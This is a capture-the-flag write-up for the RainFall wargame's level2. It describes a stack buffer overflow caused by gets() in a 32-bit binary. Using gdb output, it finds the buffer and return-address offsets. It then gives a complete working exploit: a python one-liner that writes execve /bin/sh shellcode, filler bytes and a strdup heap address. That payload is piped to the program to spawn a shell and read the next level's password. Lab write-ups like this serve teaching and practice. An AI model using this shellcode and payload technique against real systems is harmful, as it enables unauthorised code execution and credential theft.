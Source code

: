 # Level2

When we take a look at the [decom](./level2_decomp.c), we notice the use of `gets()` a line to check if an address is located in the `0xb0000000` range.
We can also see a call to `strdup()`.

## Exploit

We will first need to find the size of our buffer, to do that, we fill it with characters until it behaves weirdly:

```bash
level2@RainFall:~$ ./level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppJ����
```

Here we can notice that the buffer is 64 chars long. Nice we found one of the components!

So we need to find the return address and where it is located compared to our buffer. To do that we will use the same technique we used to find the size of our buffer such as:

```bash
level2@RainFall:~$ gdb level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b *p+30
Breakpoint 1 at 0x80484f2
(gdb) r
Starting program: /home/user/level2/level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuu

Breakpoint 1, 0x080484f2 in p ()
(gdb) x/s $ebp+4
0xbffff72c:	 "uuuu"
(gdb) 
```

Now we can calculate the difference of size which is : `qqqqrrrrssssttttuuuu` or 16 bytes before overflowing on the return address.

Now that we have the size of everything, we can craft our payload which will be :

`[shellcode] + [59 filler] + [strdup allocated addr]`

It will jump to our shellcode, execute it and voilà !

Here's the exploit:

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"' > /var/crash/tmp.txt
level2@RainFall:~$ cat /var/crash/tmp.txt - | ./level2 
j
 X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Flag

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

